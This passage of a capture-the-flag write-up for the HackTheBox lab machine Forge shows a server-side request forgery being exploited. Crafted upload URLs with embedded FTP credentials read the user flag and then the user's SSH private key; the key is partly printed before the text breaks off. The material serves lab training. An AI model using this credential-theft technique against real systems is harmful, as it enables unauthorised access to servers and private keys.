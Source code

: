 _http://Admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Admin.Forge.htb/user.txt_

And then read the _user.txt_ flag.
```{.bash caption="user.txt in server response" style=mystyle}
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:19:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=fwLAC8m8LiPBLyhZb0eU
Content-Length: 33
Last-Modified: Wed, 22 Sep 2021 10:19:44 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

812765a195ec9d2bb2f47128019b176a
```

user.txt: _812765a195ec9d2bb2f47128019b176a_

## Init Foothold
So as we are a ftp user called _user_ in a home directory we could also try ssh in with the creds:

```{.bash caption="trying ssh connection" style=mystyle}
> ssh user@forge.htb
The authenticity of host 'forge.htb (10.10.11.111)' can't be established.
ED25519 key fingerprint is SHA256:ezqn5XF0Y3fAiyCDw46VNabU1GKFK0kgYALpeaUmr+o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'forge.htb' (ED25519) to the list of known hosts.
user@forge.htb: Permission denied (publickey).
```

As we can see from the listing only pubkey is allowed. So, hidden folders will not be displayed in listing. But we get lucky and can retrieve the private key of user by the above hack with this url:

_http://Admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Admin.Forge.htb/.ssh/id_rsa_

```{.bash caption="private key of user in server response" style=mystyle}
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:27:40 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=FBaBvZRxuNIecijaUA4E
Content-Length: 2590
Last-Modified: Wed, 22 Sep 2021 10:27:29 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZIO+Qywfgnftqo5as+orHW/w1WbrG6i6B7Tv2PdQ09NixOmtHR3
rnxHouv4/l1pO2njPf5GbjVHAsMwJDXmDNjaqZfO9OYC7K7hr7FV6xlUWThwcKo0hIOVuE
7Jh1d+jfpDYYXqON5r6DzODI5WMwLKl9n5rbtFko3xaLewkHYTE2YY3uvVppxsnCvJ/6uk
r6p7bzcRygYrTyEAWg5gORfsqhC3HaoOxXiXgGzTWyXtf2o4zmNhstfdgWWBpEfbgFgZ3D
WJ+u2z/VObp0IIKEfsgX+cWXQUt8RJAnKgTUjGAmfNRL9nJxomYHlySQz2xL4UYXXzXr8G
mL6X0+nKrRglaNFdC0ykLTGsiGs1+bc6jJiD1ESiebAS/ZLATTsaH46IE/vv9XOJ05qEXR
GUz+aplzDG4wWviSNuerDy9PTGxB6kR5pGbCaEWoRPLVIb9EqnWh279mXu0b4zYhEg+nyD
K6ui/nrmRYUOadgCKXR7zlEm3mgj4hu4cFasH/KlAAAFgK9tvD2vbbw9AAAAB3NzaC1yc2
EAAAGBAJ2SDvkMsH4J37aqOWrPqKx1v8NVm6xuouge079j3UNPTYsTprR0d658R6Lr+P5d
aTtp4z3+Rm41RwLDMCQ15gzY2qmXzvTmAuyu4a+xVesZVFk4cHCqNISDlbhOyYdXfo36Q2
GF6jjea+g8zgyOVjMCypfZ+a27RZKN8Wi3sJB2ExNmGN7r1aacbJwryf+rpK+qe283EcoG
K08hAFoOYDkX7KoQtx2qDsV4l4Bs01sl7X9qOM5jYbLX3YFlgaRH24BYGdw1ifrts/1Tm6
dCCChH7IF/nFl0FLfESQJyoE1IxgJnzUS/ZycaJmB5ckkM9sS+FGF1816/Bpi+l9Ppyq0Y
JWjRXQtMpC0xrIhrNfm3OoyYg9REonmwEv2SwE07Gh+OiBP77/VzidOahF0RlM/mqZcwxu
MFr4kjbnqw8vT0xsQepEeaRmwmhFqETy1SG/RKp1odu/Zl7tG+M2IRIPp8gyurov565kWF
DmnYAil0e85RJt5oI+IbuHBWrB/ypQAAAAMBAAEAAAGALBhHoGJwsZTJyjBwyPc72KdK9r
rqSaLca+DUmOa1cLSsmpLxP+an52hYE7u9flFdtYa4VQznYMgAC0HcIwYCTu4Qow0cmWQU
```